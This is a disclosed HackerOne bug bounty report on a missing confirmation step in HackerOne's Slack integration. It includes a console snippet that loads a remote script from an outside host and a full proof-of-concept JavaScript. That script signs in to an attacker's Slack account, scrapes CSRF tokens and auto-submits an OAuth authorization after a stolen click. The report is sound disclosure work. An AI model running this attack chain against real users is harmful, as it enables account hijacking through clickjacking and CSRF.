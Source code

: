 # HackerOne Integrations Design Issue

## Report Details
- **Report ID**: 172289
- **URL**: https://hackerone.com/reports/172289
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-09-27T02:53:47.691Z
- **Disclosed**: 2019-04-11T18:12:00.694Z

## Reporter
- **Username**: whhackersbr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
###Summary###

HackerOne Integrations Design Issue

###Description (Include Impact)###

This bug is similar to #170552.

The `HackerOne Integrations` feature is very sensitive and can not be used with just a click, IMHO, or we can say "HackerOne users are a click away from​ giving to an attacker very sensitive privileges to his private account".

 * https://youtu.be/YeqfOE-6_FQ

You really need to explicitly ask the user if he wants to integrate his HackerOne account to an external service, __before__ doing it.

Asking the password to confirm, would be even better.

{F123252}

Try to connect an external account to `Phabricator` to see their approach (protection against CSRF since the start and confirmation screen).

__Exploitability__

All the attacker needs to exploit it is stealing a click, with something like:

1) Clickjacking (browser 0-day, HackerOne bug, etc.);
2) Social Engineering;
3) Exploiting an XSS in Slack quietly, and waiting for the user attempts to integrate the HackerOne with Slack;
4) Scrolling Attacks: https://www.w3.org/Security/wiki/Clickjacking_Threats#Scrolling_attacks;
5) Repositioning the Trusted Window: https://www.w3.org/Security/wiki/Clickjacking_Threats#Repositioning_the_trusted_window;

Etc.

###Steps To Reproduce###

1. Open https://whhackersbr.slack.com/XSS_VULNERABLE_PAGE?parameter=PAYLOAD;
2. Execute the following code in the browser's console;

```
/* FAKE SLACK XSS */
var newScript = document.createElement('script');
newScript.setAttribute('src', 'https://dotfivelabs.com.br/teste-BB32FE5A/css/hackerone-integrations.js');
document.head.appendChild(newScript);
```

### Optional: Your Environment (Browser version, Device, etc)

 * Firefox 48.0.2
 * Mac OS X 10.8.5

### Supporting Material/References

 * https://youtu.be/YeqfOE-6_FQ

`hackerone-integrations.js` source-code:
```
var puppet_window;

function http(method, url, data = null){
	var xhttp = new XMLHttpRequest();
	xhttp.open(method, url, false);
	if(data){
		xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
	}
	xhttp.send(data);
	return xhttp.responseText;
}

function slackLogin(){
	 console.clear();
	console.log("Signing in with the Attacker's Slack Account");
	var response = http("GET", "https://whhackersbr.slack.com");
	var csrf_token = response.match(/name\=\"crumb\" value\=\"(.*?)\" \/\>/i)[1];	//"
	try{
		http("POST", "https://whhackersbr.slack.com", "signin=1&redir=&crumb="+encodeURI(csrf_token)+"&email=hackerone%40██████&password=teste123&remember=on");
	}
	catch(err){
	}
}

function openWindow(url){
	console.clear();
	console.log("Opening HackerOne Integrations Window");
	puppet_window = window.open(url, "_blank", "menubar=no,status=no,titlebar=no,toolbar=yes,scrollbars=no,resizable=no,top=0,left=200,width=960,height=350");
}

function windowCrossDomainFinish(){
	console.clear();
	console.log("Waiting Stolen Click");
	try{
		puppet_window.document;
		setTimeout(function(){acceptOAuth()}, 2500);
	}
	catch(err){
		setTimeout(function(){windowCrossDomainFinish()}, 500);
	}
}

function acceptOAuth(){
	console.clear();
	console.log("Accepting OAuth Authorization Request");
	url = puppet_window.document.getElementById("oauth_authorize_confirm_form").action;
	csrf_token = puppet_window.document.getElementsByName("crumb")[0].value;
	puppet_window.close();
	document.body.innerHTML = '<form id="puppet_form" action="'+url+'" method="post">\
					<input type="hidden" name="create_authorization" value="1"/>\
					<input type="hidden" name="crumb" value="'+encodeURI(csrf_token)+'"/>\
					<input type="hidden" name="channel" value="C03CKQQDQ"/>\
				  </form>';
	document.getElementById("puppet_form").submit();
	console.clear();
	console.log("Game Over");
}

console.clear();
console.log("Starting the attack");
slackLogin();
alert("Click on 'Connect with Slack'");
openWindow("https://hackerone.com/security/integrations");
setTimeout(function(){windowCrossDomainFinish()}, 1000);

```

## Attachments
- Approval_Screen.png
